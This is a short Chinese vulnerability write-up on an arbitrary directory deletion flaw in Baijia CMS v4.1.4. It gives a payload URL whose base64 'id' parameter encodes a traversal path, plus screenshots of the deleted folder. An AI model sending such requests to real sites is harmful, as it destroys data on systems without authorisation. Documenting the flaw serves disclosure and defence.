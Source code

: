 百家cms v4.1.4 任意路径删除漏洞
===============================

一、漏洞简介
------------

二、漏洞影响
------------

百家cms v4.1.4

三、复现过程
------------

    # 需要后台权限
    # 只能删除路径
    http://www.0-sec.org/index.php?mod=site&act=manager&do=database&op=delete&id=Li4vLi4vdGVzdA==&beid=1

根目录下创建test文件夹，里面有内容为123的test.txt文件

![](resource/百家cmsv4.1.4任意路径删除漏洞/media/rId24.png)

访问payload将参数转为base64并方位payload

![](resource/百家cmsv4.1.4任意路径删除漏洞/media/rId25.png)

![](resource/百家cmsv4.1.4任意路径删除漏洞/media/rId26.png)

查看文件夹，已被删除

![](resource/百家cmsv4.1.4任意路径删除漏洞/media/rId27.png)

参考链接
--------

> https://xz.aliyun.com/t/7542
